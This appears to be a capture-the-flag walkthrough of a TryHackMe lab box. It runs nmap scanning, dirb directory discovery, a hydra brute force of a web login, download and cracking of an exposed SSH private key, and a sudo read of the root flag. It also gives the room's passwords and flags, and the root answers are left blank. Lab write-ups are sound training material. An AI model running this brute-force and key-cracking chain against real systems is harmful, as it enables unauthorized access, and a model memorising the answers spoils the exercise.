 Let's use `nmap` to find open ports

```bash
sudo nmap -sS -sV -A -Pn 0.0.0.0
```

Fast way to scan ports with version

```bash
sudo nmap -F -Pn -sV 0.0.0.0
```

![[Captura desde 2024-09-02 18-42-10.png]]

How many ports are open?: `2`
What version of SSH is running?:  `OpenSSH 7.6p1`
What version of Apache is running?: `2.4.29`
Which Linux distribution is running?: `Ubuntu`

`dirb` to find folder and files in web server

```
dirb http://0.0.0.0
```

![[Captura desde 2024-09-02 19-16-18.png]]

What is the hidden directory?: `/admin`

`http://0.0.0.0/admin`

![[Captura desde 2024-09-02 19-25-20.png]]

![[Captura desde 2024-09-02 19-25-57.png]]

user name is`admin` from source page `/admin`

`hydra` tool for cracking password from website using wordlist

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 0.0.0.0 http-post-form "/admin/:user=^USER^&pass=^PASS^:F=Username or password invalid" -t 64 -V
```

![[Captura desde 2024-09-02 19-30-22.png]]

username is `admin`
pasword is `xavier`

![[Captura desde 2024-09-02 19-43-39.png]]

Web flag: `THM{brut3_f0rce_is_e4sy}`

![[Captura desde 2024-09-02 19-47-34.png]]

```bash
wget http://0.0.0.0/admin/panel/id_rsa
```

Cracking password with using `ssh2john` 

```bash
chmod 600 id_rsa
ssh2john id_rsa > id_rsa.txt
```

![[Captura desde 2024-09-02 19-54-06.png]]

```bash
john id_rsa.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![[Captura desde 2024-09-02 19-56-19.png]]

`ssh` password is `rockinroll`
username is `john` from web page source for `ssh`

```bash
ssh -i id_rsa john@0.0.0.0
```

![[Captura desde 2024-09-02 20-00-44.png]]

![[Captura desde 2024-09-02 20-03-25.png]]

user.txt: `THM{a_password_is_not_a_barrier}`

short way of geting flag from root

```bash
sudo -l
sudo cat /root/root.txt
```

What is the root's password?: 


root.txt: 